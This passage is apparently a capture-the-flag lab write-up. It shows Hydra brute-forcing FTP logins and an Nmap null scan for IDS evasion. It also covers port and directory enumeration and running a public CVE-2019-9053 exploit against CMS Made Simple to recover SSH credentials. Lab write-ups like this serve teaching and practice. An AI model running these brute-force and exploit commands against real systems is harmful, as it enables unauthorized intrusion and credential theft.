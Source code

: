 Brute-forced FTP credentials with Hydra:
```bash
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
```

Then logged in:
```bash
ftp <TARGET_IP> 10021
# authenticate and list files
```

One of the accounts had a file containing the flag.

---

## Question 8  
**Browsing to http://<TARGET_IP>:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?**

The page contained a small challenge about IDS evasion with Nmap. One method that worked:
```bash
nmap -sN <TARGET_IP>
```
After the scan ran successfully, the web page revealed the final flag.

---

## Detailed walk-through (machine solved in this writeup)

> The practical flow for this machine was: enumeration → version discovery → public exploit → exploitation → SSH access on a non-standard port → post-exploitation and privilege escalation.

### Recon / Enumeration
Full port & version scan:
```bash
nmap -T4 -p- -sV --version-all <TARGET_IP>
```

Web enumeration:
```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/common.txt -t 40
# or
dirsearch -u http://<TARGET_IP>/ -e php,html,txt -w /usr/share/wordlists/common.txt
```
Found `/simple` and identified the web app/version (e.g. CMS Made Simple 2.2.8).

### Exploitation (CVE)
Searched for known vulnerabilities for the detected version and located a public exploit (example: CVE-2019-9053). Executed the exploit to recover credentials:
```bash
python3 exploit.py -u "http://<TARGET_IP>/simple/"
```
The exploit returned credentials or hints for SSH access.
